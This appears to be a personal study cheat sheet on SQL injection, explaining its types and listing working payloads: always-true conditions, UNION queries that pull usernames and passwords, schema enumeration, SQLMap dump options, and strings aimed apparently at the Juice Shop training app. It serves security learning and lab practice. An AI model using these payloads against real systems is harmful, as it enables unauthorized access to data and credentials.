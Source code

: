 # SQL Injection (SQLi)

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It can lead to unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.

## Types of SQL Injection

### In-band SQLi (Classic SQLi)

The attacker uses the same communication channel to launch the attack and gather results.
*   **Error-based SQLi:** The attacker crafts input that causes the database to produce error messages, revealing information about its structure.
*   **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of a legitimate query with a query of their own.

### Inferential SQLi (Blind SQLi)

The web application does not return the results of the malicious query directly. The attacker must infer the results by observing the application's behavior.
*   **Boolean-based SQLi:** The attacker sends a query that results in a true or false condition, which is reflected in the application's response (e.g., a different page is loaded).
*   **Time-based SQLi:** The attacker sends a query that instructs the database to wait for a specific amount of time. The response delay indicates whether the query was successful.

### Out-of-band SQLi

The attacker uses a different communication channel to exfiltrate data, such as making the server issue a DNS or HTTP request to a server the attacker controls.

## Common Payloads and Concepts

### Basic Injection
The most basic form of SQLi is to break out of a string literal and inject a condition that is always true.
*   `' or 1=1--`
*   `' or '1'='1`

### Union-based Injection
This is used to retrieve data from other tables.
*   `' UNION SELECT username, password FROM users--`

### Discovering Database Structure
In many database systems, you can query a data dictionary or information schema to get information about the database structure.
*   **Tables:** `' UNION SELECT table_name, null FROM information_schema.tables--`
*   **Columns:** `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--`

## SQLMap

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection flaws. It is a powerful tool for penetration testers.

### Basic Usage
`sqlmap -u "http://vulnerable-website.com/product.php?id=1"`

### Common Options
*   `--dbs`: Enumerate databases.
*   `--tables -D <database>`: Enumerate tables in a database.
*   `--columns -T <table> -D <database>`: Enumerate columns in a table.
*   `--dump -C <columns> -T <table> -D <database>`: Dump data from a table.
*   `--batch`: Use default answers for all questions.
*   `--level=5 --risk=3`: Increase the number of checks performed.

Here’s the **complete list** for other major databases showing how to list table schemas (metadata about tables):

---

## **List table schema**

### 🐬 MySQL

```sql
SELECT *
FROM information_schema.tables
WHERE table_schema = DATABASE();
```

---

### 🪶 SQLite

```sql
SELECT * FROM sqlite_master;
```

---

### 🐘 PostgreSQL

```sql
SELECT *
FROM information_schema.tables
WHERE table_schema NOT IN ('information_schema', 'pg_catalog');
```

Or to list all tables in the current schema:

```sql
\dt
```

(in `psql` terminal)

---

### 🏛️ Oracle

```sql
SELECT *
FROM all_tables;
```

Or to list only tables owned by the current user:

```sql
SELECT *
FROM user_tables;
```

---

### 🦈 Microsoft SQL Server

```sql
SELECT *
FROM information_schema.tables
WHERE table_type = 'BASE TABLE';
```

Or with the database catalog view:

```sql
SELECT * FROM sys.tables;
```

---

### 🧩 MariaDB

*(Same as MySQL, since MariaDB is a fork)*

```sql
SELECT *
FROM information_schema.tables
WHERE table_schema = DATABASE();
```

---

### 🐆 IBM DB2

```sql
SELECT *
FROM syscat.tables
WHERE tabschema NOT LIKE 'SYS%';
```

---


## Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

URL encoding:
https://www.w3schools.com/tags/ref_urlencode.ASP



```sql
test' or 1=1--
```

```sql
1' and '1'='1'--
```

```sql
1' OR '1'='1'#
```

```sql
'UNION SELECT table_name, NULL FROM information_schema.tables #
```

```sql
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
```

```sql
'UNION SELECT user, password FROM users #
```

```sql
1 UNION SELECT user, password FROM users --
```

```sql
1%20+UNION+SELECT+user,password+FROM+users%23
```

```sql
'UNION SELECT user, password FROM users #
```

```sql
tester@localhost.com' --
```

```sql
admin' or 1=1 --
```

```sql
test'))+UNION+SELECT+sql,2,3,4,5,6,7,8,9+FROM+sqlite_master--
```

```sql
test'))+UNION+SELECT+username,password,email,4,5,6,7,8,9+FROM+Users--
```

```sql
chris.pike@juice-sh.op' --
```
